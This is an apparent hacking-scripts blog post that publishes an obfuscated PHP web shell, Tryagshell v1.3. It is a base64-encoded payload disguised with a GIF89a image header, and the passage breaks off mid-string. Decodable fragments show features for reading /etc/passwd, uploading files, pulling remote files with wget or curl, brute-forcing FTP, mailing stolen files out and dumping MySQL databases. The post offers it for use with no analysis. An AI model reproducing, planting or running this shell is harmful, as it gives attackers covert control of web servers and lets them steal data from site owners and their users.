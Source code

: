 ```yaml
---
id: 90
title: Tryagshell v1.3 (encrypted)
author: admin
layout: post
guid: http://hackingscripts.com/?p=90
permalink: /tryagshell-encrypted/
categories:
  - PHP
  - Tryagshell
tags:
  - PHP
  - Tryagshell
---
```

This is the encoded version of the Tryagshell (version 1.3 apparently)

{% highlight php %}GIF89aP;

<?

$tryag="LyoqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKio
qKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKi8NCi8qDQov
KiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAjICAgICMgICAgICAgICMgICAgI
w0KLyogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIyAgICMgICAgICAgICAgIyA
gICMNCi8qICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIyAgICAjICAgICAgICAgIC
MgICAgIw0KLyogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAjICAgIyMgICAjIy
MjICAgIyMgICAjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIyMgICAjIyAgI
yMjIyMjICAjIyAgICMjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIyMgI
CAjIyAgIyMjIyMjICAjIyAgICMjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAg
IyMgICAjIyAgICMjIyMgICAjIyAgICMjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAgICAg
ICAgICAgIyMjICAgIyMjIyMjIyMjIyMjICAgIyMjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAg
ICAgICAgICAgIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjDQovKiAgICAgICAgICAgICAgICAgICA
gICAgICAgICAgICAgICAgICAgICAjIyMjIyMjIyMjIyMjIw0KLyogICAgICAgICAgICAgICAgICAgICA
gICAgICAgICAgICAjIyMjIyMjIyAjIyMjIyMjIyMjICMjIyMjIyMNCi8qICAgICAgICAgICAgIC
AgICAgICAgICAgICAgICAgICAjIyMgICAjIyAgIyMjIyMjIyMjIyAgIyMgICAjIyMNCi8qICAgICAgIC
AgICAgICAgICAgICAgICAgICAgICAgICAjIyMgICAjIyAgIyMjIyMjIyMjIyAgIyMgICAjIyMNC
i8qICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIyMjICAgIyAgIyMjIyMjIyMjIyAgIyAgI
CMjIw0KLyogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAjIyMgICAjIyAgIyMjIyMj
IyMgICMjICAgIyMjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAjIyAgICAjICAg
IyMjIyMjICAgIyAgICAjIw0KLyogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICMjI
CAgIyAgICAjIyMjICAgIyAgICAjIw0KLyogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgI
CAgIyMgICAgICAgICAgICAgICAgICMjDQovKg0KLyoNCi8qDQovKiAgdHJ5YWdzaGVsbC5waHAgLS
A/6j/o7z8gP+Ag7z/vIO/u5+Lu6z8/+ejpIOLgPyDi++/u6z8/P/wgP+g/Pz8/P/s/IOruP+A/P/sgP+
AgPz8/4j8/PyD3Pz8/5yA/P+A/5z8/DQovKiAgP/sgP+4/Pz8/ID/q4PfgP/wgP+7iPz8g4j8/P+g
/ID/gID/gPz8/ID/g6T8/OiBodHRwOi8vcnN0LnZvaWQucnUNCi8qICA/Pz8/6D86IDEuMyAoMDUuMDM
uMjAwNikNCi8qfn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5
oJ3RleHQnLCd0ZXN0N19maWxlJyw5NiwoIWVtcHR5KCRfUE9TVFsndGVzdDdfZmlsZSddKT8oJF9QT1
NUWyd0ZXN0N19maWxlJ10pOigiL2V0Yy9wYXNzd2QiKSkpLmluKCdoaWRkZW4nLCdkaXInLDAsJGRpc
ikuaW4oJ2hpZGRlbicsJ2NtZCcsMCwndGVzdDcnKS53cyg0KS5pbignc3VibWl0Jywnc3VibWl0Jyww
LCRsYW5nWyRsYW5ndWFnZS4nX2J1dHQ4J10pKTsNCmVjaG8gJHRlLic8L2Rpdj4nLiR0YWJsZV9lbmQ
xLiRmZTsNCn0NCmlmKEBpbmlfZ2V0KCdmaWxlX3VwbG9hZHMnKSl7DQplY2hvICI8Zm9ybSBuYW1lPX
VwbG9hZCBtZXRob2Q9UE9TVCBFTkNUWVBFPW11bHRpcGFydC9mb3JtLWRhdGE+IjsNCmVjaG8gJHRhY
mxlX3VwMS4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0NSddLnVwX2Rvd24oJ2lkMTQnKS4kdGFibGVfdXAy
LmRpdignaWQxNCcpLiR0czsNCmVjaG8gc3IoMTUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDY
nXS4kYXJyb3cuIjwvYj4iLGluKCdmaWxlJywndXNlcmZpbGUnLDg1LCcnKSk7DQplY2hvIHNyKDE1LC
I8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQyMSddLiRhcnJvdy4iPC9iPiIsaW4oJ2NoZWNrYm94J
ywnbmYxIGlkPW5mMScsMCwnMScpLmluKCd0ZXh0JywnbmV3X25hbWUnLDgyLCcnKS5pbignaGlkZGVu
JywnZGlyJywwLCRkaXIpLndzKDQpLmluKCdzdWJtaXQnLCdzdWJtaXQnLDAsJGxhbmdbJGxhbmd1YWd
lLidfYnV0dDInXSkpOw0KZWNobyAkdGUuJzwvZGl2PicuJHRhYmxlX2VuZDEuJGZlOw0KfQ0KaWYoIS
RzYWZlX21vZGUmJiEkd2luZG93cyl7DQplY2hvICRmcy4kdGFibGVfdXAxLiRsYW5nWyRsYW5ndWFnZ
S4nX3RleHQxNSddLnVwX2Rvd24oJ2lkMTUnKS4kdGFibGVfdXAyLmRpdignaWQxNScpLiR0czsNCmVj
aG8gc3IoMTUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDE2J10uJGFycm93LiI8L2I+IiwiPHN
lbGVjdCBzaXplPVwiMVwiIG5hbWU9XCJ3aXRoXCI+PG9wdGlvbiB2YWx1ZT1cIndnZXRcIj53Z2V0PC
9vcHRpb24+PG9wdGlvbiB2YWx1ZT1cImZldGNoXCI+ZmV0Y2g8L29wdGlvbj48b3B0aW9uIHZhbHVlP
VwibHlueFwiPmx5bng8L29wdGlvbj48b3B0aW9uIHZhbHVlPVwibGlua3NcIj5saW5rczwvb3B0aW9u
PjxvcHRpb24gdmFsdWU9XCJjdXJsXCI+Y3VybDwvb3B0aW9uPjxvcHRpb24gdmFsdWU9XCJHRVRcIj5
HRVQ8L29wdGlvbj48L3NlbGVjdD4iLmluKCdoaWRkZW4nLCdkaXInLDAsJGRpcikud3MoMikuIjxiPi
IuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDE3J10uJGFycm93LiI8L2I+Ii5pbigndGV4dCcsJ3JlbV9ma
WxlJyw3OCwnaHR0cDovLycpKTsNCmVjaG8gc3IoMTUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4
dDE4J10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ2xvY19maWxlJywxMDUsJGRpcikud3MoNCkuaW4
oJ3N1Ym1pdCcsJ3N1Ym1pdCcsMCwkbGFuZ1skbGFuZ3VhZ2UuJ19idXR0MiddKSk7DQplY2hvICR0ZS
4nPC9kaXY+Jy4kdGFibGVfZW5kMS4kZmU7DQp9DQplY2hvICRmcy4kdGFibGVfdXAxLiRsYW5nWyRsY
W5ndWFnZS4nX3RleHQ4NiddLnVwX2Rvd24oJ2lkMTYnKS4kdGFibGVfdXAyLmRpdignaWQxNicpLiR0
czsNCmVjaG8gc3IoMTUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDU5J10uJGFycm93LiI8L2I
+IixpbigndGV4dCcsJ2RfbmFtZScsODUsJGRpcikuaW4oJ2hpZGRlbicsJ2NtZCcsMCwnZG93bmxvYW
RfZmlsZScpLmluKCdoaWRkZW4nLCdkaXInLDAsJGRpcikud3MoNCkuaW4oJ3N1Ym1pdCcsJ3N1Ym1pd
CcsMCwkbGFuZ1skbGFuZ3VhZ2UuJ19idXR0MTQnXSkpOw0KJGFyaCA9ICRsYW5nWyRsYW5ndWFnZS4n
X3RleHQ5MiddOw0KaWYoQGZ1bmN0aW9uX2V4aXN0cygnZ3pjb21wcmVzcycpKSB7ICRhcmggLj0gaW4
oJ3JhZGlvJywnY29tcHJlc3MnLDAsJ3ppcCcpLicgemlwJzsgICB9DQppZihAZnVuY3Rpb25fZXhpc3
RzKCdnemVuY29kZScpKSAgIHsgJGFyaCAuPSBpbigncmFkaW8nLCdjb21wcmVzcycsMCwnZ3ppcCcpL
icgZ3ppcCc7IH0NCmlmKEBmdW5jdGlvbl9leGlzdHMoJ2J6Y29tcHJlc3MnKSkgeyAkYXJoIC49IGlu
KCdyYWRpbycsJ2NvbXByZXNzJywwLCdiemlwJykuJyBiemlwJzsgfQ0KZWNobyBzcigxNSwiPGI+Ii4
kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0OTEnXS4kYXJyb3cuIjwvYj4iLGluKCdyYWRpbycsJ2NvbXByZX
NzJywwLCdub25lJykuJyAnLiRhcmgpOw0KZWNobyAkdGUuJzwvZGl2PicuJHRhYmxlX2VuZDEuJGZlO
w0KaWYoQGZ1bmN0aW9uX2V4aXN0cygiZnRwX2Nvbm5lY3QiKSl7DQplY2hvICR0YWJsZV91cDEuJGxh
bmdbJGxhbmd1YWdlLidfdGV4dDkzJ10udXBfZG93bignaWQxNycpLiR0YWJsZV91cDIuZGl2KCdpZDE
3JykuJHRzLiI8dHI+Ii4kZnMuIjx0ZCB2YWxpZ249dG9wIHdpZHRoPTUwJT4iLiR0czsNCmVjaG8gIj
xmb250IGZhY2U9VmVyZGFuYSBzaXplPS0yPjxiPjxkaXYgYWxpZ249Y2VudGVyIGlkPSduJz4iLiRsY
W5nWyRsYW5ndWFnZS4nX3RleHQ4NyddLiI8L2Rpdj48L2I+PC9mb250PiI7DQplY2hvIHNyKDI1LCI8
Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ4OCddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdmdHB
fc2VydmVyX3BvcnQnLDQ1LCghZW1wdHkoJF9QT1NUWydmdHBfc2VydmVyX3BvcnQnXSk/KCRfUE9TVF
snZnRwX3NlcnZlcl9wb3J0J10pOigiMTI3LjAuMC4xOjIxIikpKSk7DQplY2hvIHNyKDI1LCI8Yj4iL
iRsYW5nWyRsYW5ndWFnZS4nX3RleHQzNyddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdmdHBfbG9n
aW4nLDQ1LCghZW1wdHkoJF9QT1NUWydmdHBfbG9naW4nXSk/KCRfUE9TVFsnZnRwX2xvZ2luJ10pOig
iYW5vbnltb3VzIikpKSk7DQplY2hvIHNyKDI1LCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQzOC
ddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdmdHBfcGFzc3dvcmQnLDQ1LCghZW1wdHkoJF9QT1NUW
ydmdHBfcGFzc3dvcmQnXSk/KCRfUE9TVFsnZnRwX3Bhc3N3b3JkJ10pOigiYmlsbHlAbWljcm9zb2Z0
LmNvbSIpKSkpOw0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0ODknXS4kYXJ
yb3cuIjwvYj4iLGluKCd0ZXh0JywnZnRwX2ZpbGUnLDQ1LCghZW1wdHkoJF9QT1NUWydmdHBfZmlsZS
ddKT8oJF9QT1NUWydmdHBfZmlsZSddKTooIi9mdHAtZGlyL2ZpbGUiKSkpLmluKCdoaWRkZW4nLCdjb
WQnLDAsJ2Z0cF9maWxlX2Rvd24nKSk7DQplY2hvIHNyKDI1LCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4n
X3RleHQxOCddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdsb2NfZmlsZScsNDUsJGRpcikpOw0KZWN
obyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0OTAnXS4kYXJyb3cuIjwvYj4iLCI8c2
VsZWN0IG5hbWU9ZnRwX21vZGU+PG9wdGlvbj5GVFBfQklOQVJZPC9vcHRpb24+PG9wdGlvbj5GVFBfQ
VNDSUk8L29wdGlvbj48L3NlbGVjdD4iLmluKCdoaWRkZW4nLCdkaXInLDAsJGRpcikpOw0KZWNobyBz
cigyNSwiIixpbignc3VibWl0Jywnc3VibWl0JywwLCRsYW5nWyRsYW5ndWFnZS4nX2J1dHQxNCddKSk
7DQplY2hvICR0ZS4iPC90ZD4iLiRmZS4kZnMuIjx0ZCB2YWxpZ249dG9wIHdpZHRoPTUwJT4iLiR0cz
sNCmVjaG8gIjxmb250IGZhY2U9VmVyZGFuYSBzaXplPS0yPjxiPjxkaXYgYWxpZ249Y2VudGVyIGlkP
SduJz4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQxMDAnXS4iPC9kaXY+PC9iPjwvZm9udD4iOw0KZWNo
byBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0ODgnXS4kYXJyb3cuIjwvYj4iLGluKCd
0ZXh0JywnZnRwX3NlcnZlcl9wb3J0Jyw0NSwoIWVtcHR5KCRfUE9TVFsnZnRwX3NlcnZlcl9wb3J0J1
0pPygkX1BPU1RbJ2Z0cF9zZXJ2ZXJfcG9ydCddKTooIjEyNy4wLjAuMToyMSIpKSkpOw0KZWNobyBzc
igyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MzcnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0
JywnZnRwX2xvZ2luJyw0NSwoIWVtcHR5KCRfUE9TVFsnZnRwX2xvZ2luJ10pPygkX1BPU1RbJ2Z0cF9
sb2dpbiddKTooImFub255bW91cyIpKSkpOw0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2
UuJ190ZXh0MzgnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0JywnZnRwX3Bhc3N3b3JkJyw0NSwoIWVtc
HR5KCRfUE9TVFsnZnRwX3Bhc3N3b3JkJ10pPygkX1BPU1RbJ2Z0cF9wYXNzd29yZCddKTooImJpbGx5
QG1pY3Jvc29mdC5jb20iKSkpKTsNCmVjaG8gc3IoMjUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV
4dDE4J10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ2xvY19maWxlJyw0NSwkZGlyKSk7DQplY2hvIH
NyKDI1LCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ4OSddLiRhcnJvdy4iPC9iPiIsaW4oJ3Rle
HQnLCdmdHBfZmlsZScsNDUsKCFlbXB0eSgkX1BPU1RbJ2Z0cF9maWxlJ10pPygkX1BPU1RbJ2Z0cF9m
aWxlJ10pOigiL2Z0cC1kaXIvZmlsZSIpKSkuaW4oJ2hpZGRlbicsJ2NtZCcsMCwnZnRwX2ZpbGVfdXA
nKSk7DQplY2hvIHNyKDI1LCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ5MCddLiRhcnJvdy4iPC
9iPiIsIjxzZWxlY3QgbmFtZT1mdHBfbW9kZT48b3B0aW9uPkZUUF9CSU5BUlk8L29wdGlvbj48b3B0a
W9uPkZUUF9BU0NJSTwvb3B0aW9uPjwvc2VsZWN0PiIuaW4oJ2hpZGRlbicsJ2RpcicsMCwkZGlyKSk7
DQplY2hvIHNyKDI1LCIiLGluKCdzdWJtaXQnLCdzdWJtaXQnLDAsJGxhbmdbJGxhbmd1YWdlLidfYnV
0dDInXSkpOw0KZWNobyAkdGUuIjwvdGQ+Ii4kZmUuIjwvdHI+PC9kaXY+PC90YWJsZT4iOw0KfQ0KaW
YoJHVuaXggJiYgQGZ1bmN0aW9uX2V4aXN0cygiZnRwX2Nvbm5lY3QiKSl7DQplY2hvICRmcy4kdGFib
GVfdXAxLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ5NCddLnVwX2Rvd24oJ2lkMTgnKS4kdGFibGVfdXAy
LmRpdignaWQxOCcpLiR0czsNCmVjaG8gc3IoMTUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDg
4J10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ2Z0cF9zZXJ2ZXJfcG9ydCcsODUsKCFlbXB0eSgkX1
BPU1RbJ2Z0cF9zZXJ2ZXJfcG9ydCddKT8oJF9QT1NUWydmdHBfc2VydmVyX3BvcnQnXSk6KCIxMjcuM
C4wLjE6MjEiKSkpLmluKCdoaWRkZW4nLCdjbWQnLDAsJ2Z0cF9icnV0ZScpLndzKDQpLmluKCdzdWJt
aXQnLCdzdWJtaXQnLDAsJGxhbmdbJGxhbmd1YWdlLidfYnV0dDEnXSkpOw0KZWNobyBzcigxNSwiIiw
iPGZvbnQgZmFjZT1WZXJkYW5hIHNpemU9LTI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0OTknXS4iIC
ggPGEgaHJlZj0iLiRfU0VSVkVSWydQSFBfU0VMRiddLiI/dXNlcnM+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ
190ZXh0OTUnXS4iPC9hPiApPC9mb250PiIpOw0KZWNobyBzcigxNSwiIixpbignY2hlY2tib3gnLCdy
ZXZlcnNlIGlkPXJldmVyc2UnLDAsJzEnKS4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTAxJ10pOw0KZWN
obyAkdGUuJzwvZGl2PicuJHRhYmxlX2VuZDEuJGZlOw0KfQ0KaWYoQGZ1bmN0aW9uX2V4aXN0cygibW
FpbCIpKXsNCmVjaG8gJHRhYmxlX3VwMS4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTAyJ10udXBfZG93b
ignaWQxOScpLiR0YWJsZV91cDIuZGl2KCdpZDE5JykuJHRzLiI8dHI+Ii4kZnMuIjx0ZCB2YWxpZ249
dG9wIHdpZHRoPTUwJT4iLiR0czsNCmVjaG8gIjxmb250IGZhY2U9VmVyZGFuYSBzaXplPS0yPjxiPjx
kaXYgYWxpZ249Y2VudGVyIGlkPSduJz4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQxMDMnXS4iPC9kaX
Y+PC9iPjwvZm9udD4iOw0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTA1J
10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ3RvJyw0NSwoIWVtcHR5KCRfUE9TVFsndG8nXSk/KCRf
UE9TVFsndG8nXSk6KCJoYWNrZXJAbWFpbC5jb20iKSkpLmluKCdoaWRkZW4nLCdjbWQnLDAsJ21haWw
nKS5pbignaGlkZGVuJywnZGlyJywwLCRkaXIpKTsNCmVjaG8gc3IoMjUsIjxiPiIuJGxhbmdbJGxhbm
d1YWdlLidfdGV4dDEwNiddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdmcm9tJyw0NSwoIWVtcHR5K
CRfUE9TVFsnZnJvbSddKT8oJF9QT1NUWydmcm9tJ10pOigiYmlsbHlAbWljcm9zb2Z0LmNvbSIpKSkp
Ow0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTA3J10uJGFycm93LiI8L2I
+IixpbigndGV4dCcsJ3N1YmonLDQ1LCghZW1wdHkoJF9QT1NUWydzdWJqJ10pPygkX1BPU1RbJ3N1Ym
onXSk6KCJoZWxsbyBiaWxseSIpKSkpOw0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ
190ZXh0MTA4J10uJGFycm93LiI8L2I+IiwnPHRleHRhcmVhIG5hbWU9dGV4dCBjb2xzPTMzIHJvd3M9
Mj4nLighZW1wdHkoJF9QT1NUWyd0ZXh0J10pPygkX1BPU1RbJ3RleHQnXSk6KCJtYWlsIHRleHQgaGV
yZSIpKS4nPC90ZXh0YXJlYT4nKTsNCmVjaG8gc3IoMjUsIiIsaW4oJ3N1Ym1pdCcsJ3N1Ym1pdCcsMC
wkbGFuZ1skbGFuZ3VhZ2UuJ19idXR0MTUnXSkpOw0KZWNobyAkdGUuIjwvdGQ+Ii4kZmUuJGZzLiI8d
GQgdmFsaWduPXRvcCB3aWR0aD01MCU+Ii4kdHM7DQplY2hvICI8Zm9udCBmYWNlPVZlcmRhbmEgc2l6
ZT0tMj48Yj48ZGl2IGFsaWduPWNlbnRlciBpZD0nbic+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTA
0J10uIjwvZGl2PjwvYj48L2ZvbnQ+IjsNCmVjaG8gc3IoMjUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLi
dfdGV4dDEwNSddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCd0bycsNDUsKCFlbXB0eSgkX1BPU1RbJ
3RvJ10pPygkX1BPU1RbJ3RvJ10pOigiaGFja2VyQG1haWwuY29tIikpKS5pbignaGlkZGVuJywnY21k
JywwLCdtYWlsX2ZpbGUnKS5pbignaGlkZGVuJywnZGlyJywwLCRkaXIpKTsNCmVjaG8gc3IoMjUsIjx
iPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDEwNiddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdmcm
9tJyw0NSwoIWVtcHR5KCRfUE9TVFsnZnJvbSddKT8oJF9QT1NUWydmcm9tJ10pOigiYmlsbHlAbWljc
m9zb2Z0LmNvbSIpKSkpOw0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTA3
J10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ3N1YmonLDQ1LCghZW1wdHkoJF9QT1NUWydzdWJqJ10
pPygkX1BPU1RbJ3N1YmonXSk6KCJmaWxlIGZyb20gdHJ5YWdzaGVsbCIpKSkpOw0KZWNobyBzcigyNS
wiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTgnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0Jywnb
G9jX2ZpbGUnLDQ1LCRkaXIpKTsNCmVjaG8gc3IoMjUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4
dDkxJ10uJGFycm93LiI8L2I+IixpbigncmFkaW8nLCdjb21wcmVzcycsMCwnbm9uZScpLicgJy4kYXJ
oKTsNCmVjaG8gc3IoMjUsIiIsaW4oJ3N1Ym1pdCcsJ3N1Ym1pdCcsMCwkbGFuZ1skbGFuZ3VhZ2UuJ1
9idXR0MTUnXSkpOw0KZWNobyAkdGUuIjwvdGQ+Ii4kZmUuIjwvdHI+PC9kaXY+PC90YWJsZT4iOw0Kf
Q0KaWYoJG15c3FsX29ufHwkbXNzcWxfb258fCRwZ19vbnx8JG9yYV9vbikNCnsNCiRzZWxlY3QgPSAn
PHNlbGVjdCBuYW1lPWRiPic7DQppZigkbXlzcWxfb24pICRzZWxlY3QgLj0gJzxvcHRpb24+TXlTUUw
8L29wdGlvbj4nOw0KaWYoJG1zc3FsX29uKSAkc2VsZWN0IC49ICc8b3B0aW9uPk1TU1FMPC9vcHRpb2
4+JzsNCmlmKCRwZ19vbikgICAgJHNlbGVjdCAuPSAnPG9wdGlvbj5Qb3N0Z3JlU1FMPC9vcHRpb24+J
zsNCmlmKCRvcmFfb24pICAgJHNlbGVjdCAuPSAnPG9wdGlvbj5PcmFjbGU8L29wdGlvbj4nOw0KJHNl
bGVjdCAuPSAnPC9zZWxlY3Q+JzsNCmVjaG8gJHRhYmxlX3VwMS4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh
0ODInXS51cF9kb3duKCdpZDIwJykuJHRhYmxlX3VwMi5kaXYoJ2lkMjAnKS4kdHMuIjx0cj4iLiRmcy
4iPHRkIHZhbGlnbj10b3Agd2lkdGg9NTAlPiIuJHRzOw0KZWNobyAiPGZvbnQgZmFjZT1WZXJkYW5hI
HNpemU9LTI+PGI+PGRpdiBhbGlnbj1jZW50ZXIgaWQ9J24nPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4
dDQwJ10uIjwvZGl2PjwvYj48L2ZvbnQ+IjsNCmVjaG8gc3IoMzUsIjxiPiIuJGxhbmdbJGxhbmd1YWd
lLidfdGV4dDgwJ10uJGFycm93LiI8L2I+Iiwkc2VsZWN0KTsNCmVjaG8gc3IoMzUsIjxiPiIuJGxhbm
dbJGxhbmd1YWdlLidfdGV4dDExMSddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdkYl9zZXJ2ZXInL
DE1LCghZW1wdHkoJF9QT1NUWydkYl9zZXJ2ZXInXSk/KCRfUE9TVFsnZGJfc2VydmVyJ10pOigibG9j
YWxob3N0IikpKS4nIDxiPjo8L2I+ICcuaW4oJ3RleHQnLCdkYl9wb3J0JywxNSwoIWVtcHR5KCRfUE9
TVFsnZGJfcG9ydCddKT8oJF9QT1NUWydkYl9wb3J0J10pOigiMzMwNiIpKSkpOw0KZWNobyBzcigzNS
wiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MzcnXS4nIDogJy4kbGFuZ1skbGFuZ3VhZ2UuJ190Z
Xh0MzgnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0JywnbXlzcWxfbCcsMTUsKCFlbXB0eSgkX1BPU1Rb
J215c3FsX2wnXSk/KCRfUE9TVFsnbXlzcWxfbCddKTooInJvb3QiKSkpLicgPGI+OjwvYj4gJy5pbig
ndGV4dCcsJ215c3FsX3AnLDE1LCghZW1wdHkoJF9QT1NUWydteXNxbF9wJ10pPygkX1BPU1RbJ215c3
FsX3AnXSk6KCJwYXNzd29yZCIpKSkpOw0KZWNobyBzcigzNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ
190ZXh0MzYnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0JywnbXlzcWxfZGInLDE1LCghZW1wdHkoJF9Q
T1NUWydteXNxbF9kYiddKT8oJF9QT1NUWydteXNxbF9kYiddKTooIm15c3FsIikpKS4nIDxiPi48L2I
+ICcuaW4oJ3RleHQnLCdteXNxbF90YmwnLDE1LCghZW1wdHkoJF9QT1NUWydteXNxbF90YmwnXSk/KC
RfUE9TVFsnbXlzcWxfdGJsJ10pOigidXNlciIpKSkpOw0KZWNobyBzcigzNSxpbignaGlkZGVuJywnZ
GlyJywwLCRkaXIpLmluKCdoaWRkZW4nLCdjbWQnLDAsJ215c3FsX2R1bXAnKS4iPGI+Ii4kbGFuZ1sk
bGFuZ3VhZ2UuJ190ZXh0NDEnXS4kYXJyb3cuIjwvYj4iLGluKCdjaGVja2JveCcsJ2RpZiBpZD1kaWY
nLDAsJzEnKS5pbigndGV4dCcsJ2RpZl9uYW1lJywzMSwoIWVtcHR5KCRfUE9TVFsnZGlmX25hbWUnXS
k/KCRfUE9TVFsnZGlmX25hbWUnXSk6KCJkdW1wLnNxbCIpKSkpOw0KZWNobyBzcigzNSwiIixpbignc
3VibWl0Jywnc3VibWl0JywwLCRsYW5nWyRsYW5ndWFnZS4nX2J1dHQ5J10pKTsNCmVjaG8gJHRlLiI8
L3RkPiIuJGZlLiRmcy4iPHRkIHZhbGlnbj10b3Agd2lkdGg9NTAlPiIuJHRzOw0KZWNobyAiPGZvbnQ
gZmFjZT1WZXJkYW5hIHNpemU9LTI+PGI+PGRpdiBhbGlnbj1jZW50ZXIgaWQ9J24nPiIuJGxhbmdbJG
xhbmd1YWdlLidfdGV4dDgzJ10uIjwvZGl2PjwvYj48L2ZvbnQ+IjsNCmVjaG8gc3IoMzUsIjxiPiIuJ
GxhbmdbJGxhbmd1YWdlLidfdGV4dDgwJ10uJGFycm93LiI8L2I+Iiwkc2VsZWN0KTsNCmVjaG8gc3Io
MzUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDExMSddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQ
nLCdkYl9zZXJ2ZXInLDE1LCghZW1wdHkoJF9QT1NUWydkYl9zZXJ2ZXInXSk/KCRfUE9TVFsnZGJfc2
VydmVyJ10pOigibG9jYWxob3N0IikpKS4nIDxiPjo8L2I+ICcuaW4oJ3RleHQnLCdkYl9wb3J0JywxN
SwoIWVtcHR5KCRfUE9TVFsnZGJfcG9ydCddKT8oJF9QT1NUWydkYl9wb3J0J10pOigiMzMwNiIpKSkp
Ow0KZWNobyBzcigzNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MzcnXS4nIDogJy4kbGFuZ1s
kbGFuZ3VhZ2UuJ190ZXh0MzgnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0JywnbXlzcWxfbCcsMTUsKC
FlbXB0eSgkX1BPU1RbJ215c3FsX2wnXSk/KCRfUE9TVFsnbXlzcWxfbCddKTooInJvb3QiKSkpLicgP
GI+OjwvYj4gJy5pbigndGV4dCcsJ215c3FsX3AnLDE1LCghZW1wdHkoJF9QT1NUWydteXNxbF9wJ10p
